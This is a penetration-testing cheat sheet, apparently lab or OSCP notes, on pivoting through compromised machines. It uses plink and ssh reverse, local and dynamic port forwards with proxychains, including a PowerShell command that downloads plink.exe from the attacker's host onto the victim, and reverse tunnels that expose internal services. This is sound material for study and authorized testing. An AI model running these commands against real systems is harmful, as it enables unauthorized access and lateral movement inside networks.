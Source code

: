 ```yaml
---
description: 'Burp > proxychains > app: Settings > Network > Connections > SOCKS Proxy'
---
```


# Tunneling / (with SSH key)

`sudo netstat -tulpn` to check tunnel connections

### plink ssh to kali from victim

{% code overflow="wrap" %}
```powershell
#victim
netstat -ano #to see undiscovered service during nmap

#kali
python -m http.server 8080 #to host plink
service ssh start

#victim
powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.158:8080/plink.exe','C:/hfs/tmp/plink.exe')

cmd.exe /c echo y | plink.exe -ssh -l kali -pw kalipwd -R 192.168.119.158:7799:127.0.0.1:445 192.168.119.158

#kali
nmap -sT -sV -sC 127.0.0.1 7799 
```
{% endcode %}

:445 = internal service ; :7799 = kali tunnel port to the target :445

{% code overflow="wrap" %}
```powershell
#machine C
plink.exe -ssh -l b.user -pw b.pwd -N -R 10.1.1.9:1069:127.0.0.1:9050 10.1.1.9

#machine B 10.1.1.9
plink.exe -ssh -l kali -pw kalipwd -N -R 192.168.119.158:7799:127.0.0.1:1069 192.168.119.158

```
{% endcode %}

tunneling machine C :9050 to kali :7799 through machine B :1069

### ssh to victim from kali

{% code overflow="wrap" %}
```bash
/etc/proxychains4.conf:
socks4 	127.0.0.1 9050
socks4 	127.0.0.1 9060

sudo ssh -N -D 127.0.0.1:9050 sean@10.11.1.251 

sudo ssh -N -D 127.0.0.1:9060 j0hn@10.11.1.252 -p 22000 -o KexAlgorithms=+diffie-hellman-group1-sha1 -o HostKeyAlgorithms=+ssh-rsa
```
{% endcode %}

{% hint style="info" %}
may use `-i {cracked key id}` flag if have [Authorized\_key](../password-attack/ssh-authorized\_key-reuse/) cracked

or `-i {authorized_key}` if placed kali's key in the victim
{% endhint %}

pivot machine 8888 to windows victim 3389 (need victim pw)

<pre><code>ssh -L -f 8888:192.168.1.90:3389 root@192.168.1.90 #-f bg 
<strong>( on pivot machine rdp 127.0.0.1:8888)
</strong></code></pre>

kali connect to pivot machine 8888 to final victim 3389

```
rdp 192.168.2.90:8888
```

### ssh from victim to kali

after [finding](../reconnaissance/nmap-masscan-autorecon.md#no-nmap-approach) which port is opened on the next client from 1st victim&#x20;

{% code overflow="wrap" %}
```bash
# bind next client :22 to kali 1122, next client 3306 to kali 13306
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@192.168.45.5
```
{% endcode %}

prevent ssh from asking for kali pwd with id\_rsa

{% code overflow="wrap" %}
```bash
# in /tmp on 1st victim
mkdir keys
cd keys
ssh-keygen
> /tmp/keys/id_rsa
cat id_rsa.pub

cop to kali ~/.ssh/authorized_keys
```
{% endcode %}

dynamic port forwarding

{% code overflow="wrap" %}
```
/etc/proxychains4.conf:
socks4 	127.0.0.1 9050

ssh -f -N -R 9050 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i
/tmp/keys/id_rsa kali@192.168.119.173
```
{% endcode %}

#### windows allowing other access local :80&#x20;

```
# 192.168.1.90:8080 = victim:80 (initiate from victim)
ssh -R 8080:internalwww:80 user@192.168.1.90
```

{% embed url="https://woshub.com/ssh-tunnel-port-forward-windows/" %}
